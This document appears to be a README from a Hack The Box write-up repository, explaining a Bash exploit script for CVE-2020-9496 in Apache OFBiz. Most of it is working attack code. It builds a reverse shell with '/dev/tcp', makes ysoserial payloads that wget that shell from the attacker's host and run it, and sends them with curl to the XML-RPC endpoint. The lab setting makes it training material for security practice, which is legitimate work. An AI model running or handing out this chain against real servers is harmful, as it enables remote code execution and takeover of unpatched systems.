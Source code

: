 # Hack The Box. Machines. Monitors

Machine write-up: https://7rocky.netlify.app/en/htb/monitors

### `deserialization.sh`

This Bash script is the result of putting together all the steps found in the [CVE-2020-9496](https://github.com/g33xter/CVE-2020-9496) to exploit Apache OFBiz version 17.12.01.

The exploiting process requires to have a web server on port 80 (using Python, for example).

It also requires to have a JAR file for [ysoserial](https://github.com/frohoff/ysoserial).

Basically, the script receives three parameters:

```bash
ip=$1
port=$2
yss_path=$3
```

The IP address and port where to listen with `nc`, and the path to the JAR file for [ysoserial](https://github.com/frohoff/ysoserial).

Then, the script itself will create a file called `shell.sh` with a reverse shell payload:

```bash
echo "bash -i >& /dev/tcp/$ip/$port 0>&1" > shell.sh
```

And after that, generate the payloads needed to exlpoit the insecure deserialization vulnerability of OFBiz:

```bash
first=`java -jar $yss_path CommonsBeanutils1 "wget $ip/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"` 
second=`java -jar $yss_path CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n"`
```

These payloads must be inserted inside an XML document and sent to `/webtools/control/xmlrpc`. Since there are two payloads, the best is to write a function and call it twice:

```bash
function send_payload() {
  curl https://127.0.0.1:8443/webtools/control/xmlrpc -d \
"<?xml version=\"1.0\"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns=\"http://ws.apache.org/xmlrpc/namespaces/extensions\">$1</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>" -skH 'Content-Type: application/xml' >/dev/null
}
```

After that, we call the function providing the two previous payloads (waiting some time between both requests) and remove the `shell.sh` file:

```bash
send_payload $first
sleep 2
send_payload $second

rm shell.sh
```
